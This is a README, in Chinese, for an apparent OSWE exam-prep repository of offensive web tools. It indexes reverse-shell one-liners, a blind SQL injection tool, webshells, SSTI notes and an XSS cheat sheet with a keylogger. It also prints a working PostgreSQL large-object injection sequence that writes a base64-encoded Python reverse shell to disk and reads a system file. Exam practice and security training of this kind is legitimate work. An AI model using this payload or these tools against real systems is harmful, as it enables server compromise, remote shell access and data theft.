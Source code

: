 # oswe-tools

## debugger

一些設定 / 簡易指令, 第一次使用就上手.

## revshells

一句話反連指令, 有多種語言

`pty_shell_handler.py` 是從 [這裡](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_shell_handler.py) 取得的, 把 pty shell 升級成可以 `ctrl^c` 的完整shell


## sqli

自己刻的BST Boolean-based SQLi

Postgresql Large Object 的 SQL 語法產生器
```sql
$ python sqli/pgsql/generate_sql.py --noloid --upload revshells/r.py -p d:/go.py 
select lo_import( 'c:/windows/win.ini', (select case when count (*) > 0 then MAX(CAST(loid as int))+1 else 1337 end from pg_largeobject));
with LL as (select MAX(CAST(loid as int)) as gg from pg_largeobject) update pg_largeobject set data=decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEyNy4wLjAuMSIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vYmFzaCIpCg==', 'base64') from LL where loid=LL.gg and pageno=0;
select lo_export((select MAX(CAST(loid as int)) as gg from pg_largeobject), 'd:/go.py');
select lo_unlink((select MAX(CAST(loid as int)) as gg from pg_largeobject));
```

## ssti

練習時有遇到的 SSTI, 記錄簡單復現方式

## jars

好用的 Java 工具

## webshells

簡易網頁木馬

## InterpretCode

交互式測試多種程式語言的 cheatsheet.

## utils

小工具, 不知道怎麼分類就放這

## XSS.md

編寫 XSS 攻擊時的大抄, 包含 js-api, fetch Auth pages, keylogger ...
